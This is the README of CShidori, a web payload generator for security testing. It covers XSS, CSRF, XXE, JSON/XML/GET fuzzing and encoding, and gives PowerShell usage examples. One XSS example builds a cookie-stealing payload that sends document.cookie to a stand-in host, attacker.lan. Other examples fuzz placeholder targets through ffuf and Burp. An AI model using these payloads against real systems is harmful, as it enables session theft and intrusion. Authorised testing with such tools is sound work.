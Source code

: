 # CShidori

Web payloads generator

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

## Payloads generation

- Fuzzing list
- XSS
- JSON
- XML
- GET
- CSRF
- XXE
- Mutation
- Encoding

## Exemples

### Combine a wordlist with Chidori to test a specific parameter:

```powershell
gc wordlist.txt |%{ .\CShidori.exe xss "$_" }
gc wordlist.txt |%{ .\CShidori.exe mut 5 "$_" }
```

### Generate get/post requests to tests

```powershell
.\CShidori.exe bc |%{ .\CShidori.exe get "?bar=foo&foo=bar" $_ }
.\CShidori.exe bc |%{ .\CShidori.exe json request.json $_ }
.\CShidori.exe bc |%{ .\CShidori.exe xml request.xml $_ }  
```

### Then send generated payloads with Ffuf through Burp

```powershell
.\CShidori.exe bc > list ; .\ffuf.exe -u https://target/FUZZ -w list:FUZZ -replay-proxy http://127.0.0.1:8080
```

## Usage

### XSS / Injections

```powershell
.\CShidori.exe xss 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe json ..\testing\test.json "'"
```

### XML

```powershell
.\CShidori.exe xml ..\testing\exemple.xml "'"
```

### GET

```powershell
.\CShidori.exe get "?bar=foo&foo=bar" "'"
```

### CSRF

```powershell
.\CShidori.exe csrf post http://target.lan "name1=value1&name2=value2"
.\CShidori.exe csrf get http://target.lan "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe xxe file
.\CShidori.exe xxe call 
.\CShidori.exe xxe all
```

### Mutation

```powershell
.\CShidori.exe mut 5 test
```

### Encode

```powershell
.\CShidori.exe enc "<script>alert(1)</script>"
```


## Miscellaneous

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```

### SOAP & XSD

Removed since you can did it with Visual studio:
- Merge XSD in WSDL
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
